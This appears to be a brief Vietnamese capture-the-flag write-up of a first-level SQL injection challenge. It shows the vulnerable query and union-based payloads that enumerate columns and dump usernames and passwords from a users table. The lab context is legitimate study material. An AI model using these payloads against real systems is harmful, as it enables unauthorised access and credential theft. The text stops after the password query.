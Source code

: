 #LevelOne- Select the user by ID you wish to view
>Sqli ID
>
Đề bài cho câu lênh query sql sau : 

```sql
SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1
```
Ta nhập id = 1 và xem thử đầu ra => Thì thấy 2 trường đầu ra gồm id và username 
![id](https://github.com/tinasahara1/Study/blob/4d55fb78fcaa93466bf002059f47813c4522b60f/WebSec/image/id1.PNG)

Sau đó test thử payload với column = 2 để kiểm tra lỗ hổng => payload `1 union select 1,2-- -`
![id](https://github.com/tinasahara1/Study/blob/e159b1e37be66b1d5835208db76e3c848dc67e5b/WebSec/image/id3.PNG)

Đầu ra cho thấy cả 2 column 1,2 đều lỗi => Ta group_concat(username) để tìm flag thử 
`1 union select 1,group_concat(username) from users;`
![id]()

Nhưng vẫn không thấy
`1 union select 1,group_concat(password) from users;`
